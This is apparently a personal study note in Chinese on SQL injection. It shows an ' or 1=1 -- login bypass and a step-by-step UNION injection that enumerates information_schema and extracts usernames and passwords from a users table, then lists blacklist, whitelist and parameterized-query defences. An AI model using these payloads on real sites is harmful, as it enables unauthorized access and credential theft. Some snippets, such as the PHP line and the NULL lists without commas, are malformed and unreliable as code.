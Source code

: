 ```yaml
---
title: Sql Injection
tags: Network
katex: true
abbrlink: e441acd0
date: 2023-03-12 19:20:48
---
```


### SQL 基本語法
```
SELECT 欄位 FROM 表格
SELECT 欄位 FROM 表格 UNION 1,2,3,...
```

#### Authrization Bypass
### PHP
```php
$user = $_GET[key=value]
$sql = "SELECT * FROM db WHERE USER = ' ' or 1=1 --"(True) 
```
在登陸介面 name 輸入 `' or 1=1 --` , password隨便輸
|符號|功能|
|--|--|
| '|stop|


```
?catogority=.... 這是向DB 輸 SQL指令
?catogority=' or 1=1 -- 使得DB輸出所為true東西
```

### Union SQL injection
確認有幾個欄位
```PHP
UNION SELECT NULL --
UNION SELECT NULL NULL --
UNION SELECT NULL NULL NULL --
```
確定是不是字串
```PHP
UNION SELECT 'a' NULL NULL
UNION SELECT NULL 'a' NULL 
UNION SELECT NULL NULL 'a'
```
查看有什麼資料
```
information_schema.schemata
information_schema.tables
information_schema.columns
```
EX: 取得某網站管理員帳號
```
'UNION SELECT 'a', 'a' --
'UNION SELECT schema_name, schema_name FROM information_schema.schemata --
'UNION SELECT table_name, table_name FROM information_schema.tables WHERE table_schema = 'public' --
'UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' --
'UNION SELECT username, password FROM public.users --
```

### 預防
1. 黑名單
  拒絕含有SQL關鍵字輸入 (駭客總有方法進入, ex: 正則化...)
2. 白名單
   只允許特定字加入SQL
3. 參數化查詢
   最有效防止
   先編譯完再將查詢參數填入(參數不會被當作執行語法)


